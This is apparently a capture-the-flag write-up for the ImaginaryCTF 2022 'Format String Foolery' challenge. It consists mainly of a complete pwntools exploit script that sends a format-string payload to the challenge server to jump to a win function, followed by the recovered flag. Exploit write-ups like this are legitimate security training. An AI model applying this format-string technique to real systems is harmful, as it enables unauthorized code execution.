

# ImaginaryCTF 2022 - Format String Foolery

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [fmt_foolery.zip](fmt_foolery.zip)

There will be 3 files in zip:
- wrapper.py
- fmt_foolery
- libc-2.31.so

This challenge is the same as Format String Fun so you can read [here](#)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./fmt_foolery_patched', checksec=False)
libc = ELF('./libc-2.31.so', checksec=False)
context.binary = exe
context.log_level = 'debug'

# p = process(exe.path)
p = remote('fmt-foolery.chal.imaginaryctf.org', 1337)

payload = fit(
	{
		0: b'%792c' + b'%26$n',
		0x50: exe.sym['win'] + 30
	}, filler = b'\x00'
)
p.sendline(payload)
p.interactive()
```

# Get flag



Flag is `ictf{n0_12bit_brute_please!_3b0241a3}`